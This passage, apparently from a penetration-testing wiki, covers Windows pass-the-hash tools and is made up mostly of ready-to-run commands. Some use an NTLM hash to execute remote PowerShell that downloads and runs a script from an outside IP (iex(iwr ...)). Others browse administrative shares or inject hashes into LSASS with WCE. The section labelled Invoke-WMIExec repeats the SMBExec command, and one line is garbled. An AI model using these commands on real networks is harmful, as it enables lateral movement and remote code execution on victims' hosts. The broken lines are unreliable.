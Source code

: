 ```
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```

#### Invoke-WMIExec

```
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```

#### Invoke-SMBClient

```
Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose
```

#### Invoke-SMBEnum

```
Invoke-SMBEnum -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 -Target dcorp-mgmt.dollarcorp.moneycorp.local -verbose
```

#### Invoke-TheHash

This function is a **mix of all the others**. You can pass **several hosts**, **exclude** someones and **select** the **option** you want to use (_SMBExec, WMIExec, SMBClient, SMBEnum_). If you select **any** of **SMBExec** and **WMIExec** but you **don't** give any _**Command**_ parameter it will just **check** if you have **enough permissions**.

```
Invoke-TheHash -Type WMIExec -Target 192.168.100.0/24 -TargetExclude 192.168.100.50 -Username Administ -ty    h F6F38B793DB6A94BA04A52F1D3EE92F0
```

### [Evil-WinRM Pass the Hash](../../network-services-pentesting/5985-5986-pentesting-winrm.md#using-evil-winrm)

### Windows Credentials Editor (WCE)

**Needs to be run as administrator**

This tool will do the same thing as mimikatz (modify LSASS memory).

```
wce.exe -s <username>:<domain>:<hash_lm>:<hash_nt>
```

### Manual Windows remote execution with username and password

{% content-ref url="../lateral-movement/" %}
[lateral-movement](../lateral-movement/)
{% endcontent-ref %}
